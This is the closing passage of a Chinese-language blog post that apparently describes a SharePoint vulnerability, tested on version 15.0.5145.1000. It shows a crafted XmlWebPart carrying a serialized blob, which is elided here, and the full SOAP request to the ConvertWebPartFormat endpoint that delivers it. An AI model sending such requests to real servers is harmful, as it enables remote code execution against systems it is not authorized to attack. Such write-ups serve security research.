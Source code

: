   
服务的端点来解析控件，或者创建一个包含该 WebPart 的页面。最终的 WebPart 将类似于以下结构：  

```
<%@ Register Tagprefix=&#34;WebPartPages&#34; Namespace=&#34; Microsoft.SharePoint.WebPartPages&#34; Assembly=&#34;Microsoft.SharePoint, Version=15.0.0.0, Culture=neutral, PublicKeyToken=71e9bce111e9429c&#34; %>


<WebPartPages:XmlWebPart ID=&#34;SPWebPartManager&#34; runat=&#34;Server&#34;>
    <WebPart
        xmlns=&#34;http://schemas.microsoft.com/WebPart/v2&#34;>
        <AttachedPropertiesShared>/wEWABANANA...</AttachedPropertiesShared>
    </WebPart>
</WebPartPages:XmlWebPart>
```

  
请求：  

```
POST /_vti_bin/webpartpages.asmx HTTP/1.1
Host: sharepoint
Content-Type: text/xml; charset=utf-8
Content-Length: 9661
SOAPAction: http://microsoft.com/sharepoint/webpartpages/ConvertWebPartFormat


<?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?>
<soap:Envelope xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34; xmlns:xsd=&#34;http://www.w3.org/2001/XMLSchema&#34; xmlns:soap=&#34;http://schemas.xmlsoap.org/soap/envelope/&#34;><soap:Body><ConvertWebPartFormat xmlns=&#34;http://microsoft.com/sharepoint/webpartpages&#34;><inputFormat><![CDATA[
<%@ Register Tagprefix=&#34;WebPartPages&#34; Namespace=&#34; Microsoft.SharePoint.WebPartPages&#34; Assembly=&#34;Microsoft.SharePoint, Version=15.0.0.0, Culture=neutral, PublicKeyToken=71e9bce111e9429c&#34; %>


<WebPartPages:XmlWebPart ID=&#34;SPWebPartManager&#34; runat=&#34;Server&#34;>
    <WebPart
        xmlns=&#34;http://schemas.microsoft.com/WebPart/v2&#34;>
        <AttachedPropertiesShared>/wEWABANANA...</AttachedPropertiesShared>
    </WebPart>
</WebPartPages:XmlWebPart>


]]></inputFormat></ConvertWebPartFormat></soap:Body></soap:Envelope>
```

  
测试版本：15.0.5145.1000  
  
以上就是本篇博客的全部内容。感谢您的阅读！  
  
